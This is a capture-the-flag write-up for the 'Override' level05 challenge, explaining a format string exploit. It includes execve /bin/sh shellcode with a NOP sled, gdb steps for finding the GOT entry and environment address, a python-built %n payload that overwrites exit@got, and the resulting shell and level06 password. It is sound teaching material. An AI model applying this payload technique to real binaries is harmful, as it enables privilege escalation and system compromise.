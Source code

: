 # Override - level05

## 1. Understand the binary

We've started executing the binary to see what was asking.

It asked for an input and it was printing the input.

We've opened the binary with gdb and running the 'info functions' command we've seen that printf was called.

We've started to test to see if a Format String Vulnerability was present.

We've tested with multiple inputs:
    - %p %p %p %p: printed some address
    - %s: Segmentation fault (core dumped)

With this tests we've undestood that in the code there was something like this:

```
int main()
{
    char s[100];
    fgets(s, 100, stdin);
    printf(s); <-- vulnerable printf
    exit (0);
}
```

## 2. Format String Exploit

A FSE is an exploit based on injecting, using the vulnerable printf, some shellcode at a address
in memory that will be called at some point in the program. To do this we need to choose a address
from the Global Offset Table. In our program we choosed to inject the shellcode at the exit@got address
since is the only funciton that we have after the printf.

To do a FSE we need:
    - Shellcode to export as a variable in the env that execute a /bin/sh.
    - Find the address of the exported variable using gdb during program execution and the address
      of the exit on the GOT.
    - Find the position on the Stack relative to our printf to understand where to write the address of
      the env variable.
    - Build a payload to overwrite the exit address with the shellcode env var address.
    - Write the shellcode at the address using python and the payload.

We found online a bytecode that execute a /bin/sh (shellcode):

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80
```

That is the bytecode for more or less this program:

```
int main() 
{
    execve("/bin/sh", NULL, NULL);

    return (0);
}
```

We exported the shellcode using python -c to add a NOP sled beginning of the env variable.
A NOP sled is a series of identical values in memory that instruct the CPU to take no action
and proceed to the next instruction. In our case we used \x90 as character (for Intel).

```
export SHELLCODE=$(python -c "print '\x90' * 200 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80' ")
```

The NOP sled length is arbitrary as long as it overflows the env entry into another address.

After we run

```
gdb level05 
```

put a breakpoint on main

```
b main
```

run the code and examinated the first 200 environ addesses at the breakpoint using

```
x/200s environ
```

and we found the end of the shellcode address:

```
0xffffd8ca:	 "\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\207\343\260\v̀".
```

Now we disassembled exit

```
disas exit

0x08048370 <+0>:	jmp    *0x80497e0 <-- jump to the call on the GOT
0x08048376 <+6>:	push   $0x18
0x0804837b <+11>:	jmp    0x8048330
```

and we examine the jump address to find the GOT address

```
x 0x80497e0

0x80497e0 <exit@got.plt>:	0x08048376
```

To find our write offset for the shellcode env var address we can test using
AAAA and a %p. When the output will be 0x41414141 (A = 41 in hex) it means we have found the
right position.

```
AAAA%10$p
aaaa0x61616161 (61 because level05 binary do a tolowercase before printing the input)
```

So we need to overwrite 0x080497e0 (exit@got) with 0xffffd8ca (shellcode in env) at postion 10 on the Stack.

Since we have to write 4294957258 chars (0xffffd8ca in decimal) at a specific address that are too many,
we need to divide between the higher and lower order bytes of the address.

It means writing 0xffff (65535) @ 0x080497e0 + 2 = 0x080497e2 (high order)
             and 0xd8ca (55498) @ 0x080497e0 (low order)

Now, we have to figure out the value to set for the padding. Here is the formula

[The value we want] - [The bytes alredy wrote] = [The value to set].

Let's start with the low order bytes :

It'll will be 55498 - 8 = 55490, because we already wrote 8 bytes (the two 4 bytes addresses).

Then, the high order bytes :

It'll will be 65535 - 55498 = 10037, because we already wrote 55498 bytes (the two 4 bytes addresses and 55490
bytes from the previous writing).

Now we can build our exploit:

```
It'll be: \xe0\x97\x04\x08 \xe2\x97\x04\x08 %55490x %10$n %10037x %11$n

- \xe0\x97\x04\x08 or 0x080497e0 (in reverse order) points to the low order bytes.
- \xe2\x97\x04\x08 or 0x080497e2 (in reverse order) points to the high order bytes.
- %55490× will write 55490 bytes on the standard output.
- %10$n will write 8 + 55490 = 55498 bytes (or 0xd8ca) at the first address specified (0x080497e0).
- %10037x will write 10037 bytes on the standard output.
- %11$n will write 8 + 55490 + 10037 = 65535 (or 0xffff) at the second address specified (0x080497e2).
```

Now as usual:

```
python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%55490x' + '%10\$n' + '%10037x' + '%11\$n'" > /tmp/exploit

                                                                           ^                      ^
                                                                    We need to escape the two $ for the shell.

cat /tmp/exploit - | ./level05

Now we are in a shell with level06 privileges

whoami
level06

cat ~level06/.pass                
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```